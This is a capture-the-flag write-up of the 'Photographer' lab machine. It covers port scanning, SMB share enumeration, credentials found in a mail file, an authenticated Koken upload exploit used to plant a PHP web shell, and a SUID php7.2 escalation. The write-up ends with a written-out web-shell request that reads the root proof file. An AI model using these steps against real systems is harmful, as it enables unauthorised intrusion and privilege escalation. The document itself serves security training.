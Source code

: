 ```yaml
---
title: "Proving Grounds - Photographer"
publishedAt: 2023-08-20
description: "PlayGround Writeup"
isPublish: true
---
```


I've started my OSCP journey a while ago, and I wanted to try the PG machines, this is the first one that I've tried. The machine is fairly straightforward and it's labeled easy.

I've started with a simple `nmap` scan, which hinted that this Linux machine is part of an Active Directory.

```bash
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 414daa1886948e88a74c6b426076f14f (RSA)
|   256 4da3d07a8f64ef82452d011318b7e013 (ECDSA)
|_  256 1a017a4fcf9585bf31a14f1587ab94e2 (ED25519)
80/tcp   open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Photographer by v1n1v131r4
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
8000/tcp open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: daisa ahomi
|_http-generator: Koken 0.22.24
Service Info: Host: PHOTOGRAPHER; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

On the port `80` we have a simple web page which is more or less just a placeholder of a template, but on the `8000` we have a functional website build with `Koken`

```
# Versions for :80
http://192.168.160.76:80/ 
[200 OK] Apache[2.4.18], 
Country[RESERVED][ZZ], HTML5, 
HTTPServer[Ubuntu Linux][Apache/2.4.18 (Ubuntu)], 
IP[192.168.160.76], 
JQuery, Script, 
Title[Photographer by v1n1v131r4]

# Versions for :8000
http://192.168.160.76:8000/
[200 OK] Apache[2.4.18], 
Country[RESERVED][ZZ], HTML5, 
HTTPServer[Ubuntu Linux][Apache/2.4.18 (Ubuntu)],
IP[192.168.160.76], JQuery[1.12.4], 
Meta-Author[daisa ahomi], 
MetaGenerator[Koken 0.22.24],
Script, Title[daisa ahomi], 
X-UA-Compatible[IE=edge]
```

I immediately searched for exploits for `Koken 0.22.24`, and found this one: https://www.exploit-db.com/exploits/48706

This is `authenticated` exploit, so it hinted that I must look further to get some credentials.

Upon scanning the Active Directory (`139,445`) I found public shares, one of which was non-default `sambashare`.

```bash
$ smbclient -N -L 192.168.160.76           
Sharename       Type      Comment
---------       ----      -------
print$          Disk      Printer Drivers
sambashare      Disk      Samba on Ubuntu
IPC$            IPC       IPC Service (photographer server (Samba, Ubuntu))
```

I explored it and found 2 files, one was an email in a `txt` format and the other one was zipped WordPress site, I've scanned the WordPress source code with `gf` (https://github.com/tomnomnom/gf) but found nothing. The mail thought had an interesting text inside that hinted two users and suggestion for a password.

```bash
agi@photographer.com - Agi Clarence
daisa@photographer.com - Daisa Ahomi
```

I found the password for the user `daisa@photographer.com` in the content of the mail. (It is very simple!)

After that, I logged into the `Koken's` Admin Panel and uploaded a simple PHP shell using the previously mentioned exploit. I could read the `user/local.txt` file that yielded the user own flag.

The root was pretty straightforward, upon scanning for `SUID` binaries, I found that `/usr/bin/php7.2` was such, and a simple request with the previous active shell yielded me the root flag.

```bash
GET /storage/originals/4f/38/image.php?cmd=/usr/bin/php7.2+-r+'readfile("/root/proof.txt")%3b' HTTP/1.1
Host: 192.168.210.76:8000
Upgrade-Insecure-Requests: 1
User-Agent: ...
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: koken_session_ci=...
Connection: close
```
